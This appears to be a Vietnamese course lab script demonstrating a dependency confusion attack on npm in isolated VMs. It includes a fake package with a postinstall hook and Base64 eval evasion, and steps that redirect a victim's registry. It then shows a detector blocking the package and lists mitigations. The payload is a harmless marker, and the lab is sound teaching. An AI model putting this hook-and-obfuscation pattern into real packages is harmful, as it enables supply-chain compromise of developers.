

# KỊCH BẢN DEMO TẤN CÔNG CHUỖI CUNG ỨNG (SUPPLY CHAIN COMPROMISE)
## Mô phỏng giữa 2 máy ảo: Kali Linux (Attacker) vs Windows 11 (Victim Developer)
**Môn học:** NT230 - Cơ chế hoạt động của mã độc  
**Đề tài:** D04 - Supply Chain Compromise: Package độc hại an toàn  
**Kỹ thuật trọng tâm:** Dependency Confusion (Alex Birsan Vector) + Lifecycle Hook Injection + Base64 Evasion  
**Tiêu chuẩn an toàn:** Safe Marker PoC (Zero destructive code, 100% telemetry-driven)

---

## 1. THÔNG TIN MÔI TRƯỜNG & PHÂN VAI HỆ THỐNG

| Máy ảo | Hệ điều hành | Vai trò trong kịch bản | Địa chỉ IP (Ví dụ Host-Only) | Các công cụ / Dịch vụ kích hoạt |
|---|---|---|---|---|
| **VM 1** | **Kali Linux** | **Kẻ tấn công (External Threat Actor / Competitor)** | `192.168.100.10` | Node.js, npm, Verdaccio (hoặc Upstream Registry Simulator), Bash |
| **VM 2** | **Windows 11** | **Nạn nhân (Enterprise Developer Workstation / CI Runner)** | `192.168.100.20` | Node.js 18+, npm, PowerShell / VS Code, Python 3.12 (Detector Gate) |

> **Cấu hình mạng khuyến nghị:** Thiết lập card mạng cả 2 máy ảo ở chế độ **Host-Only** (hoặc Internal Network) để đảm bảo môi trường hoàn toàn cô lập (Air-gapped), không gửi bất kỳ gói tin nào ra ngoài Internet, tuân thủ đúng yêu cầu an toàn của môn NT230.

---

## 2. NGỮ CẢNH TẤN CÔNG (THREAT CONTEXT) & TÌNH HUỐNG THỰC TẾ

### 2.1. Tình huống doanh nghiệp mục tiêu
Tập đoàn tài chính **"FinTech Enterprise Corp"** đang phát triển cổng dịch vụ tài chính cốt lõi (`enterprise-fintech-portal`). Doanh nghiệp đầu tư hạ tầng bảo mật phòng thủ chiều sâu (Defense-in-Depth):
- Tường lửa thế hệ mới (NGFW) chặn toàn bộ các cổng mạng lạ, chỉ cho phép cổng HTTPS (443).
- Toàn bộ máy tính kỹ sư Windows 11 đều bật Windows Defender Antivirus / EDR cập nhật mới nhất.
- Kỹ sư phần mềm được huấn luyện nhận thức bảo mật cao: không tải file `.exe`, không cắm USB lạ, không nhấp vào liên kết email lừa đảo (phishing), không kích hoạt macro Office.

### 2.2. Điểm yếu mấu chốt: Chuỗi cung ứng phần mềm (Software Supply Chain)
Dự án cổng thông tin của doanh nghiệp sử dụng hệ sinh thái Node.js/npm. Trong dự án, các kỹ sư gọi module xác thực nội bộ:
```json
"dependencies": {
  "uit-core-auth": "^1.0.0"
}
```
Module này vốn được lưu trữ trên máy chủ nội bộ. Tuy nhiên, doanh nghiệp mắc phải một thiếu sót phổ biến:
1. **Không sử dụng Scoped Namespace:** Tên gói là `uit-core-auth` thay vì `@fintech-corp/uit-core-auth`. Tên gói này chưa được đăng ký (unclaimed) trên Public Registry (`npmjs.org` hoặc upstream index).
2. **Cơ chế phân giải của npm:** Khi nhà phát triển hoặc hệ thống CI/CD chạy lệnh `npm install`, nếu hệ thống tra cứu cả registry nội bộ lẫn upstream, npm client sẽ so sánh số phiên bản (Semantic Versioning) và **luôn ưu tiên tải về gói có phiên bản cao nhất**.

---

## 3. TOÀN CẢNH CUỘC TẤN CÔNG (ATTACK KILL CHAIN NARRATIVE)



### Vì sao kẻ tấn công lại chọn con đường này?
1. **Vô hiệu hóa EDR/AV theo cơ chế thiết kế (Living-off-the-Pipeline):**
   - Tiến trình thực hiện tải và giải nén là `node.exe` và `npm.cmd` hợp pháp của hệ điều hành.
   - Lưu lượng mạng là HTTPS chuẩn tới Registry. Antivirus trên Windows 11 không gắn cờ hành vi `npm install` là độc hại.
2. **Tự động thực thi không cần tương tác (Zero-interaction Execution):**
   - Kẻ tấn công lợi dụng cơ chế **Lifecycle Scripts** (`preinstall`, `install`, `postinstall`). Ngay khi gói vừa giải nén, mã script tự động kích hoạt dưới quyền hạn người dùng hiện tại mà không cần lập trình viên mở bất kỳ file nào.
3. **Kỹ thuật lẩn tránh kiểm tra tĩnh (Evasion via Obfuscation):**
   - Kẻ tấn công giấu payload bên trong chuỗi mã hóa Base64 và sử dụng cơ chế nạp động `eval(Buffer.from(..., 'base64').toString())`. Các bộ quét antivirus quét chuỗi thô sẽ không phát hiện chuỗi payload ban đầu.

---

## 4. CHI TIẾT CÁC BƯỚC THỰC HIỆN DEMO TRÊN 2 MÁY ẢO

### BƯỚC 1: Chuẩn bị trên máy Kẻ tấn công (Kali Linux - IP: `192.168.100.10`)

1. **Khởi động Registry dịch vụ cục bộ (Verdaccio đóng vai Upstream Registry):**
   Trên Kali Linux, mở Terminal và chạy Verdaccio:
   ```bash
   # Cách 1: Chạy trực tiếp qua npx
   npx verdaccio --listen 0.0.0.0:4873

   # Hoặc Cách 2: Chạy qua Docker
   docker run -d --name local-registry -p 4873:4873 verdaccio/verdaccio
   ```

2. **Tạo tài khoản publish trên Registry:**
   ```bash
   npm adduser --registry http://localhost:4873
   # Điền username: attacker, password: 123, email: attacker@lab.local
   ```

3. **Chuẩn bị gói độc hại an toàn `uit-core-auth` (Version 99.9.9):**
   Tạo thư mục `poc-package`:
   ```bash
   mkdir -p /root/poc-package && cd /root/poc-package
   ```

   Tạo file `package.json`:
   ```json
   {
     "name": "uit-core-auth",
     "version": "99.9.9",
     "description": "PoC Dependency Confusion with Base64 Obfuscation",
     "main": "index.js",
     "scripts": {
       "postinstall": "node index.js"
     },
     "author": "ThreatActor",
     "license": "ISC"
   }
   ```

   Tạo file `index.js` (Sử dụng Safe Marker - Tuyệt đối không phá hoại):
   ```javascript
   const os = require('os');
   const path = require('path');
   const fs = require('fs');

   // Chuỗi Base64 mô phỏng: "console.log('[D04 AUDIT MARKER] Dependency Confusion triggered: uit-core-auth v99.9.9 active');"
   const encodedPayload = "Y29uc29sZS5sb2coJ1tEMDQgQVVESVQgTUFSS0VSXSBEZXBlbmRlbmN5IENvbmZ1c2lvbiB0cmlnZ2VyZWQ6IHVpdC1jb3JlLWF1dGggdjk5LjkuOSBhY3RpdmUnKTs=";

   // Giải mã động (Evasion pattern kích hoạt Layer 2)
   eval(Buffer.from(encodedPayload, 'base64').toString('utf-8'));

   // Ghi dấu vết an toàn (Safe Marker File)
   const markerPath = os.platform() === 'win32' ? 'C:\\Users\\Public\\uit_marker_dependency_confusion.log' : '/tmp/uit_marker_dependency_confusion.log';
   fs.writeFileSync(markerPath, `[DEPENDENCY CONFUSION MARKER] Loaded version 99.9.9 at ${new Date().toISOString()}\n`);
   ```

4. **Publish gói lên Registry:**
   ```bash
   npm publish --registry http://localhost:4873
   ```
   > **Quan sát:** Registry báo đã lưu gói `uit-core-auth@99.9.9` thành công, sẵn sàng phân phối cho bất kỳ client nào truy vấn.

---

### BƯỚC 2: Mô phỏng hành vi nạn nhân trên Windows 11 (IP: `192.168.100.20`)

1. **Cấu hình trỏ npm registry về máy Kali Linux:**
   Mở PowerShell trên Windows 11:
   ```powershell
   # Trỏ registry tới IP máy Kali Linux
   npm config set registry http://192.168.100.10:4873
   npm config set strict-ssl false
   ```

2. **Vào thư mục dự án doanh nghiệp mục tiêu:**
   ```powershell
   cd C:\D04-supply-chain-poc\infrastructure\victim-consumer
   ```
   Xem lại file `package.json` của dự án nạn nhân:
   ```json
   {
     "name": "enterprise-fintech-portal",
     "version": "2.4.0",
     "dependencies": {
       "uit-core-auth": "^1.0.0"
     }
   }
   ```
   *Lưu ý:* Dự án chỉ khai báo `^1.0.0`.

3. **Lập trình viên thực hiện cài đặt thư viện (`npm install`):**
   ```powershell
   npm install
   ```

4. **Quan sát kết quả tấn công (Kịch bản chưa có phòng thủ):**
   - Trên màn hình PowerShell xuất hiện dòng chữ:
     ```text
     [D04 AUDIT MARKER] Dependency Confusion triggered: uit-core-auth v99.9.9 active
     ```
   - Kiểm tra file marker được tạo tự động:
     ```powershell
     Get-Content C:\Users\Public\uit_marker_dependency_confusion.log
     ```
     -> Kết quả hiển thị: `[DEPENDENCY CONFUSION MARKER] Loaded version 99.9.9 at ...`
   - Kiểm tra phiên bản thực tế trong `package-lock.json` hoặc `node_modules`:
     ```powershell
     npm list uit-core-auth
     ```
     -> Kết quả: `uit-core-auth@99.9.9` đã bị cài đè lên hệ thống thay vì bản `1.0.0` nội bộ!

---

### BƯỚC 3: Trình diễn Cơ chế Phòng thủ & Security Gate (Windows 11)

Đây là phần trọng tâm để ghi điểm tối đa trong đồ án: Chứng minh khả năng phát hiện đa tầng của nhóm.

1. **Kích hoạt Bộ quét Đa lớp (3-Layer Detector) trước khi cài đặt:**
   Trên Windows 11, chạy Security Gate kiểm tra gói `uit-core-auth`:
   ```powershell
   python C:\D04-supply-chain-poc\scripts\supply_chain_gate.py C:\D04-supply-chain-poc\packages\uit-core-auth
   ```

2. **Quan sát kết quả Telemetry:**
   ```text
   =================================================================
    [CI/CD GATE] SUPPLY CHAIN PRE-INSTALL POLICY ENFORCER
    Target Path: C:\D04-supply-chain-poc\packages\uit-core-auth
    Policy Risk Threshold: 35
   =================================================================
   Package Scanned : uit-core-auth
   Version         : 99.9.9
   Evaluated Risk  : 160 / 35
   Gate Decision   : MALICIOUS
   -----------------------------------------------------------------
   Violation Details:
    [!] HIGH     | Layer 1 - Manifest     | Suspicious Lifecycle Hook: postinstall
        Details: Detected active 'postinstall' hook with command: node index.js
    [!] CRITICAL | Layer 1 - Manifest     | Dependency Confusion Indicator
        Details: Abnormally high major version '99.9.9' (>= 90.0)
    [!] CRITICAL | Layer 2 - Source Code  | Obfuscation / Dynamic Exec Pattern
        Details: Dynamic evaluation of Base64 encoded buffer detected in index.js (Matches: 1)
    [!] HIGH     | Layer 2 - Source Code  | Long Encoded String Artifact
        Details: Found 1 long Base64 string literal(s) in index.js
   -----------------------------------------------------------------

   [GATE FAILED] BLOCKED: Supply chain compromise indicators detected!
   Policy action: ABORTING build to prevent code execution on runner.
   =================================================================
   ```

3. **Ý nghĩa bảo mật:**
   - Bộ lọc kích hoạt cấm tiến trình (Exit Code 1), chặn đứng việc gọi `npm install`.
   - Payload không thể kích hoạt trên máy lập trình viên.
   - Báo cáo Telemetry chi tiết ghi nhận chính xác 3 chỉ dấu: Hook vòng đời, Version vọt lố và Mẫu làm rối mã.

---

## 5. CÁC BIỆN PHÁP KHẮC PHỤC TRIỆT ĐỂ TRONG DOANH NGHIỆP

1. **Sử dụng Scoped Registry:** Đặt tên các gói nội bộ theo namespace công ty có tiền tố `@` (ví dụ: `@fintech/uit-core-auth`) và cấu hình xác thực bắt buộc.
2. **Khóa chặt Lockfile (`npm ci` thay vì `npm install`):** Luôn commit file `package-lock.json` vào Git và sử dụng lệnh `npm ci` trên môi trường CI/CD để bắt buộc kiểm tra mã băm SHA-512 toàn vẹn.
3. **Cấu hình cấm chạy script tự động:** Chạy `npm install --ignore-scripts` đối với các thư viện bên thứ ba không yêu cầu biên dịch C++ native.
4. **Tích hợp Security Gate vào Pipeline:** Đưa công cụ như `detector.py` / `supply_chain_gate.py` làm bước chốt chặn bắt buộc (Quality Gate) trước bước `build` hoặc `deploy`.
